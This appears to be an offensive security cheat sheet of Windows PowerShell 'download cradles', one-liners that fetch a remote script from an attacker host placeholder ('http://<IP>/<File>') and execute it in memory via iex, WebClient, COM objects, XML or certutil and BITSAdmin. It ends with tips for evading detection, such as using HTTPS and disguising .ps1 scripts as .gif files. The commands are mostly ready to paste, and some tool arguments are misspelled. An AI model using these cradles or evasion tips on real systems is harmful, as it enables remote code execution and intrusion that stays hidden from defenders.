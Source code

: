 # Windows Powershell

### 1) In Memory

    Net.WebClient DownloadString Method
    Net.WebClient DownloadData Method
    Net.WebClient OpenRead Method
    .NET [Net.HttpWebReqest].class
    Word.Application COM Object
    Excel.Application COM Object
    InternetExplorer.Application COM Object
    MSXML2.ServerXmlHTTP Com Object
    Certutil.exe w/ -ping argument

### 2) On Disk

    Net.WebClient DownloadFile Method

    BITSAdmin.exe

    Cerutil.exe w/ -urlcahche argument

### 3) Net.WebClient Download String Method

    powershell.exe iex (New-Object Net.Webclient).DownloadString('http://<IP>/<File>')

##### Standard download cradle

    iex (New-Object Net.Webclient).DownloadString("http://<IP>/<File>")

##### Internet Explorer Downoad cradle

    $ie=New-Object -ComObject
    InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://<IP>/<File>
    ');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

##### Requires PowerShell V3+

    iex (iwr 'http://<IP>/<File>')

    $h=New-Object -ComObject
    Msxml2.XMLHTTP;$h.open('GET','http://<IP>/<File>',$false);$h.send();iex
    $h.responseText

    $wr = [System.NET.WebRequest]::Create("http://<IP>/<File>")
    $r = $wr.GetResponse()
    IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()

### 4) Net.WebClient Single Quotes Download and store

    iex (new-Object Net.WebClient).DownloadFile('http://<IP>/<File>', 'C:\programdata\<File>')

    powershell.exe iex (new-Object Net.WebClient).DownloadFile('http://<IP>/<File>', 'C:\programdata\<File>')

### 5) Net.WebClient User Agent Download

    $downloader = New-Object System.Net.WebClient
    $downloader.Headers.Add ("")
    $payload = "http://<IP>/<File>"
    $command = $downloader.DownloadString($payload)
    iex $command

### 6) XML Download and Execute

    $xmldoc = New-Object System.Xml.XmlDocument
    $xmldoc.Load("http://<IP>/<File.xml>")
    iex $xmldoc.command.a.execute
    $xmldoc = New-Object System.Xml.XmlDocument ; $xmldoc.Load("http://<IP>/<File.xml>") ; iex $xmldoc.command.a.execute

### XML Script example

    <?xml version="1.0"?>
    <command>
		    <a>
			    <execute>Get-Process</execute>
		    </a>
    </command>

# TIPS AND TRICKS

### 1) If possible use SSL on attacking machine and use HTTPS to further evade detection

### 2) Further evade detection by renaming scripts from .ps1 to something else such as .gif. Powershell can still execute .gif files as Powershell files.

### 3) Multi command scripts below can be converted to one line with ';' between commands.

